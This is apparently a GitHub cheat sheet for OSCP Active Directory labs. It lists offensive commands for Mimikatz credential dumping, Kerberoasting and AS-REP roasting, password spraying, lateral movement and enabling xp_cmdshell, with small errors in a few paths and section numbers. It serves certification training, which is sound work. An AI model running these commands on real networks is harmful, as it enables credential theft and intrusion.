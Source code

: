 # 🛡️ OSCP Active Directory Lab Guide

## 1. Escalate on MS01 (Always Dual-Homed)
- Check privileges:
```powershell
whoami /priv
```
- If `SeImpersonatePrivilege` is there, use one of [these](https://x7331.gitbook.io/boxes/tl-dr/active-directory/privileges/seimpersonateprivilege) to escalate to Local Admin
## 2. Pillaging
- Dump credentials with Mimikatz:
```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
```
- Check PowerShell history:
```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
## 3. Enumerate the Domain (From MS01)
- Enumerate domain users and build a wordlist
```bash
$ nxc smb 192.168.X.X -u <user> -p <pass> --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" {print $5}' > domain_users
```
- Enumerate SMB shares
```bash
nxc smb 192.168.X.X -u <user> -p <pass> --shares
```
- Check for [AS-REP Roasting](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/asreproasting):
```bash
impacket-GetNPUsers oscp.exam/ -dc-ip 10.10.X.X -no-pass -usersfile domain_users
hashcat -m 18200 asreproast_users /usr/share/wordlists/rockyou -r /usr/share/hashcast/rules/best64.rule --force
```
- Check for [Kerberoasting](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/kerberoasting):
```bash
impacket-GetUserSPNs -request -dc-ip 10.10.X.X oscp.exam/<user>
hashcat -m 13100 kerberoast_users /usr/share/wordlist/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
- Password spray the domain to enumerate valid accounts and remote access:
```bash
nxc smb domain_ips -u domain_users -p passwords --continue-on-success | grep +
nxc winrm domain_ips -u domain_users -p passwords --continue-on-success | grep +
nxc rdp domain_ips -u domain_users -p passwords --continue-on-success | grep +
```
## 3. Pivot to MS02
- Use sprayed creds to access via WinRM or RDP:
```bash
evil-winrm -u <user> -p <pass> -i <MS02>
xfreerdp /u:<user> /p:<pass> /v:<MS02> /smart-sizing
```
## 4. Enumerate MS02
- Check for `C:\windows.old` folder → [dump SAM and SYSTEM locally](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/local-sam-dump):
```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```
- Look for custom binaries → download and run `strings` to extract creds, check for [binary](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#service-binary-hijacking/[DLL](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#dll-hijacking) hijacking
- Read [PowerShell history](https://x7331.gitbook.io/boxes/tl-dr/infra/windows#files):
```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Enumerate the path
(Get-PSReadlineOption).HistorySavePath
# List its contents
cat C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
## 5. Domain Privilege Escalation
- Crack Kerberoast/AS-REP hashes (e.g. with hashcat or john)
- Use cracked SQL creds to connect with mssqlclient.py:
```bash
mssqlclient.py <domain>/<user>@<host> -windows-auth
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
- Spray all discovered creds again to escalate further
